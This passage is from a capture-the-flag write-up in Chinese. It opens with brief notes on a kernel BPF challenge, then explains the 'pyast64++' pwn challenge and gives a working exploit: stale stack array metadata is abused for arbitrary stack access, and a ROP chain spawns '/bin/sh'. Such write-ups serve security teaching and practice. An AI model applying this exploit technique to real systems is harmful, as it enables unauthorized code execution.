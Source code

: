 ```c
    return 0;
}
```



Others.

1. 若 rootfs 在 loading 時需要 root 權限，則在 compress 時要加上 `--owner root` 的 flag
2. `/proc/sys/net/core/bpf_jit_enable` 可以檢查 bpf 能不能夠被 JIT
3. `/proc/sys/kernel/unprivileged_bpf_disabled` 可以檢查是否能執行
4. [kernel doc](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/kernel.html) 描述有許多在 `/proc/sys/` 下的設定
5. 不確定為什麼把 rootfs unpack 壓回去時，`find` 印出的檔案順序與作者的不同，導致 flag 對到的位址不相同



### pyast64++.pwn

題目使用了 github 上某個做 JIT python code 的 [repo](http://benhoyt.com/writings/pyast64/)，而此 JIT 的實作並沒有考慮到離開 stack frame 後的 array pointer 仍可以被取得，並且關於 canary 以及 length 的資訊也沒有被清除，並且我們還能對 pointer 做一些加減運算得到任意的 pointer。

因此我們可以先透過 function `put_canary()` 構造一個很大的 array，在 stack 殘留下他的 array info (canary 以及 length `0x20`)，而後我們透過一個 `exp_wrapper()` 將 stack 先往上一些，實際在 `exp()` 時透過 array pointer 的減法使得 `x` 指向 `put_canary()` 所殘留的 array info，這樣就能通過檢查。之後透過 `x[idx]` 就可以取得 stack 當中任意位址的值，雖然能夠用 `getc()` 做 leak，但是這邊直接用已知的位址做加法得到我們在 main 所構造的 ROP gadget，並且直接在 stack 上構造 `"/bin/sh"`，最後透過 ROP chain 執行 `sys_execve("/bin/sh", NULL, NULL)`，exploit 如下：

```python
def put_canary():
    owo = array(0x20)
    owo[0] = 0xc0ffee

def exp():
    binsh = array(1)
    binsh[0] = ((((0x6873 * 0x10000) + 0x2f6e) * 0x10000) + 0x6962) * 0x100 + 0x2f
    x = binsh - 0x28
    # x[10] is return address
    x[11] = x[9] + 8 # addr of /bin/sh
    x[12] = x[10] + 37 # pop rsi ; ret
    x[13] = 0
    x[14] = x[10] + 45 # pop rdx ; ret
    x[15] = 0
    x[16] = x[10] + 53 # pop rax ; ret
    x[17] = 0x3b
    x[18] = x[10] + 84 # syscall
    x[10] = x[10] + 29 # pop rdi ; ret

def exp_wrapper():
    dummp = array(0x14) # make rsp lower
    exp()

def main():
    # create ROP gadget
    pop_rdi_ret = 0xc35f
    pop_rsi_ret = 0xc35e
    pop_rdx_ret = 0xc35a
    pop_rax_ret = 0xc358

    put_canary()
    exp_wrapper()
```
